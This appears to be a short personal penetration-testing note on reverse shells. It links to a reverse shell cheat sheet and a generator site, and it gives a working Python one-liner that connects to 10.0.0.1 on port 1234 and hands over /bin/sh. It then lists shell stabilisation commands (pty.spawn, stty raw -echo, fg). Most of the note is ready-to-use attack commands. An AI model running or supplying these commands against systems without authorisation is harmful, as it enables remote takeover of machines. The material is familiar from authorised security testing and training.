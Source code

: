 ## Reverse shell cheat sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

### Reverse shell generator
[revshells.com](https://www.revshells.com/)

## Web reverse shell
[[Web Shell#PHP Reverse Shell]]

[[Web Shell#Java Reverse Shell]]

## Python reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Shell Stabalisation
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

background the shell using `Ctrl + Z`

```
stty raw -echo; fg
```
 
 This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and `Ctrl + C` to kill processes). It then foregrounds the shell, thus completing the process.

If shell dies and cannot see typed stuff `reset`
